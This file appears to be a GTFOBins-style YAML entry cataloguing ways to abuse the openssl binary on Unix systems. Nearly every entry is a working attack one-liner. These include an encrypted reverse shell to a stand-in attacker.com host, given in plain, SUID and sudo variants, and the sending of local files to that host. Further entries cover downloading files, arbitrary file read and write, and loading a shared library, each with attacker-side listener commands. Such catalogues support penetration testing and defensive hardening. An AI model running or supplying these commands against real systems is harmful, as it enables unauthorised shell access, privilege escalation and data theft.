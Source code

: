 ```yaml
---
functions:
  reverse-shell:
    - description: |
        To receive the shell run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

        Communication between attacker and target will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
  file-upload:
    - description: |
        To collect the file run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 > file_to_save

        Send a local file via TCP. Transmission will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        openssl s_client -quiet -connect $RHOST:$RPORT < "$LFILE"
  file-download:
    - description: |
        To send the file run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < file_to_send

        Fetch a file from a TCP port, transmission will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
  file-write:
    - code: |
        LFILE=file_to_write
        echo DATA | openssl enc -out "$LFILE"
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        openssl enc -in "$TF" -out "$LFILE"
  file-read:
    - code: |
        LFILE=file_to_read
        openssl enc -in "$LFILE"
  suid:
    - description: |
        To receive the shell run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

        Communication between attacker and target will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | ./openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s

    - code: |
        LFILE=file_to_write
        echo DATA | openssl enc -out "$LFILE"
  sudo:
    - description: |
        To receive the shell run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

        Communication between attacker and target will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | sudo openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
  library-load:
    - code: openssl req -engine ./lib.so
---
```

